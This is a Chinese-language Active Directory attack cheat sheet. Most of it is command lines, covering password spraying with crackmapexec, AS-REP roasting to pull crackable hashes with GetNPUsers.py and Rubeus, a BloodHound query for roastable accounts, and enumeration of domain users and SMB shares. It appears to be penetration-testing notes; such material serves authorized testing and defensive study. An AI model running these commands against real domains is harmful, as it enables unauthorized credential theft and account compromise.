 

## 得到账号，但是没有密码

### 密码喷洒

~~~ABAP
获取域密码策略 ：
crackmapexec <IP> -u 'user' -p 'password' --pass-pol
enum4linx -u 'username' -p 'password' -P <IP>

cme smb <dc-ip> -u user.txt -p password.txt --no-bruteforce # 不爆破，只测试单一的 user=password

cme smb <dc-ip> -u user.txt -p password.txt # 交叉爆破，根据密码策略，失败过多可能会被封禁
~~~



### ASREP-Roasting攻击

#### 获取hash

~~~ABAP
python GetNPUsers.py <domain>/ -usersfile <usernames.txt> -format hashcat -outputfile <hashes.domain.txt>

Rubeus asreproast /format:hashcat
~~~



#### 获取ASREP-Roastable账号

~~~ABAP
Get-DomainUser -PreauthNotRequired -Properties SamAccountName

MATCH (u:User {dontreqpreauth:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
~~~



## 拿到任意一个域用户的账号密码

### 获取其他账户密码

#### 1.获取域内所有账户名

~~~ABAP
GetADUsers.py -all -dc-ip <dc_ip> <domain>/<username>
~~~

#### 2.枚举 SMB 共享

~~~ABAP
cme smb <ip> -u <user> -p <password> --shares
~~~
